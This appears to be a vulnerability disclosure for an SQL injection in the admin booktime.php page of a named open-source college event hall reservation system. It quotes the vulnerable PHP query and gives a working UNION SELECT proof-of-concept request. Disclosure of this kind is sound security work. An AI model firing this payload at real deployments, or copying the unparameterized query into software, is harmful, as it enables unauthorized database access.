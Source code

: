 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - SQL Injection booktime.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/
> 
## Affected Component
> /admin/booktime.php

## Code
```php
    if(isset($_GET['room_id'])){
        $room_id1=$_GET['room_id'];
        $sql1="SELECT * FROM tbl_rooms WHERE room_id='$room_id1'";
        $res1=mysqli_query($conn,$sql1);
        if($res1==True){
            while($row=mysqli_fetch_assoc($res1)){
                $room_name=$row['room_name'];
                $capacity=$row['capacity'];
                $location=$row['location'];
                $description=$row['description'];
                $img_name=$row['img_name'];
                $room_num = $row['room_number'];
            }
        }
    }
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /admin/booktime.php?id=1&room_id='+union+select+1,2,3,4,5,6,version()+%23 HTTP/1.1
Host: [REDACTED]
```

## Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/60700937/7e3304ab-32f0-49ef-9961-526d529612f0)


